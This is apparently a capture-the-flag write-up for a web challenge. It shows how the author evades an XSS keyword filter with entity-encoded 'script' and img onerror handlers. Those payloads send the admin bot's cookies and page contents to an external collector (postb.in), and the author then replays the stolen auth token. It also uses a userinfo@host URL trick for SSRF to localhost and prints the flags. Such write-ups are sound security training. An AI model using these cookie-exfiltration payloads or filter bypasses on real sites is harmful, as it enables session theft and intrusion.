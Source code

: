 Cookie World Order (**web**)

    Good job! You found a further credential that looks like a VPN 
    referred to as the cWo. The organization appears very clandestine 
    and mysterious and reminds you of the secret ruling class of hard 
    shelled turtle-like creatures of Xenon. Funny they trust their 
    security to a contractor outside their systems, especially one with 
    such bad habits. Upon further snooping you find a video feed of 
    those "Cauliflowers" which look to be the dominant lifeforms and 
    members of the cWo. Go forth and attain greater access to reach 
    this creature!

Similarly with day 3 web problem case, we have URL: https://cwo-xss.web.ctfcompetition.com/

Open it and observe very similar page with Admin entity and field for 
input some text message.

Trying to copy-paste previous solution:

    <script>
    var img=new Image();
    img.src="https://postb.in/1561479835927-8693528019357?cookie="+document.cookie;
    </script>

leads to reply "HACKER ALERT!".
After typing different strings it comes out that input must not contain 
`script` or `alert` as a substring. Well, modern WEB is full of tricks 
and wistles. If you (like me) have no expirience with web programming, 
Googling can compensate it. Just request something like "bypassing XSS 
filter".

First try:

    <scrip&#0000116>
    aler&#0000116('XSS');
    </scrip&#0000116>

Unfortunately, server removed `<script>` tag. Hm, maybe there are tags 
that are "allowed", do check:
    
    <b> bold </b> 
    <a href="google.com"> google </a> 
    <img src="https://cwo-xss.web.ctfcompetition.com/static/img/profile.png">

Yes, links and images work well! But links mostly requires user's 
actions, and we can be sure, that Admin bot will not click on any.
Now, back to the googling. And quickly find out that it is quite easy 
to call javascript from some event handlers, and if we can fire these 
events, then we can execute script. Common place is `onerror` event of 
`img` node, and it is very easy to fire error, just by giving it 
inproper source URL. Let's use our PostBin and try:

    <img src=x onerror="javascrip&#0000116:
    var img=new Image();
    img.src='https://postb.in/1561495195584-1681611498352?cookie='+document.cookie;">

... and back to PostBin:

    GET /1561495195584-1681611498352 2019-06-25T20:40:15.156Z
    Headers

        x-real-ip: 104.155.55.51
        host: postb.in
        connection: close
        pragma: no-cache
        cache-control: no-cache
        sec-fetch-mode: no-cors
        user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36
        accept: image/webp,image/apng,image/*,*/*;q=0.8
        sec-fetch-site: cross-site
        referer: https://cwo-xss.web.ctfcompetition.com/exploit?reflect=%3Cimg%20src=x%20onerror=%22javascrip&
        accept-encoding: gzip, deflate, br

    Query

        cookie: flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}; auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz

    Body

Ok, the flag is

**CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}**


But what could we see in Admin panel with his auth token? Open 
WebConsole, do

    document.cookie="auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz"

and click on "Admin" link. What we have here... Users and Livestreams 
seems empty. Camera Controls says requests are allowed only 
from 127.0.0.1 (localhost). Maybe those HeadlessChrome-bot is on the 
same host with server? Let's try to see how bot renders this page:

    <img src=x onerror="javascrip&#0000116:
    fetch('/admin/controls', {method: 'get'}).then((res) => { return res.text(); }).then((data) => {
          var img=new Image();img.src='https://postb.in/1561495316858-4828648881521?'+data;
    });">

Bad luck, he sees the same message:

    GET /1561495316858-4828648881521 2019-06-25T21:03:13.407Z
    Headers

        x-real-ip: 104.155.55.51
        host: postb.in
        connection: close
        pragma: no-cache
        cache-control: no-cache
        sec-fetch-mode: no-cors
        user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3827.0 Safari/537.36
        accept: image/webp,image/apng,image/*,*/*;q=0.8
        sec-fetch-site: cross-site
        referer: https://cwo-xss.web.ctfcompetition.com/exploit?reflect=%3Cimg%20src=x%20onerror=%22javascrip&
        accept-encoding: gzip, deflate, br

    Query

        Requests only accepted from 127.0.0.1: 

After some lurking on the main page we can see strange thing: video is 
linked with url `https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com/livestream/garden-livestream.webm`

Why does it refer to the file with absolute path (and with no TLS)? Can 
this page show us any file all over the world? Try:

    https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://google.com
    => Your only allowed to make requests to "http://cwo-xss.web.ctfcompetition.com" 

Ok then, it seems like server checks that requested page path starts 
with `http://cwo-xss.web.ctfcompetition.com`. In fact this check does 
not guarantee that URL's hostname is `cwo-xss.web.ctfcompetition.com`, 
because the full URI specification (RFC3986) states that after scheme 
(`http`), colon and two slashes goes *authority*, which has following 
format:

    [ userinfo "@" ] host [ ":" port ]

Thus we can use string `cwo-xss.web.ctfcompetition.com` as userinfo.
Actually we can append to it any additional characters, uncluding fake 
"password" for authentification (which hopefully will not needed). What 
is important is to add "@" character. After it we can add any host and 
port. Let's try:

    https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com:passw0rd@google.com

Yes, we did it, we have free http proxy!
Cross fingers and request admin controls:

    https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com:passw0rd@127.0.0.1/admin/controls

And there is second flag:

**CTF{WhatIsThisCookieFriendSpaceBookPlusAllAccessRedPremiumThingLooksYummy}**
